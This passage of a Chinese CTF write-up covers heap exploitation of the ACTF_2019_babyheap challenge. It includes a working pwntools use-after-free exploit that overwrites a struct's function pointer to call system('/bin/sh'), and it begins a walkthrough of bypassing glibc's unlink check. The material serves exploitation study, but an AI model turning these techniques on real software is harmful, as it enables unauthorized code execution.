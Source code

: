 *   申请了一个16字节堆块作为struct, struct前半8字节又申请了size大小的字节用于存放content, 后8个字节存放一个输出函数输出content
*   显示部分调用struct里面的函数指针打印content
*   释放时并没有将ptr指针置空, 这就是我们利用的漏洞

```python
from pwn import *
context(arch = 'amd64', os = 'linux', log_level = 'debug')
p   = process('./ACTF_2019_babyheap')

binsh   = 0x602010
system  = 0x4007a0

def creat(size, content):
    p.recvuntil('Your choice: ')
    p.send('1')
    p.recvuntil('Please input size: ')
    p.send(size)
    p.recvuntil('Please input content: ')
    p.send(content)
def delete(index):
    p.recvuntil('Your choice: ')
    p.send('2')
    p.recvuntil('Please input list index: ')
    p.send(index)
def printf(index):
    p.recvuntil('Your choice: ')
    p.send('3')
    p.recvuntil('Please input list index: ')
    p.send(index)
    
creat('256', 'A' * 0x100)
creat('256', 'B' * 0x100)
delete('0')
delete('1')
# A的结构体部分设置为binsh system
# 打印的时候就会执行system(binsh)
creat('16', p64(binsh) + p64(system))
# 执行A
printf('0')

p.interactive()
```
>   从脚本中不难看出我们先申请了A和B然后释放
>   那么此时bin中有两条链, 一条放着A和B的struct, 另一条放着A和B的content
>   我们再申请一个content大小为0x10的C时, 此时C的struct就会使用B的struct, C的content就会使用A的struct, 然后只需要将system和binsh的地址写入C的content然后调用print打印A的content就会执行system("/bin/sh");

#   unlink
>   unlink的过程如下
```C
// BK和FD起临时变量的作用
#define unlink(P, BK, FD) { \
    FD = P->fd;             \
    BK = P->bk;             \
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))   \
        malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \
    FD->bk = BK;            \
    BK->fd = FD;            \
}
```
*   unlink检测绕过
>   检测原理
*   unlink的就是检查上一个堆块的fd和下一个堆块的bk指针是否都指向P
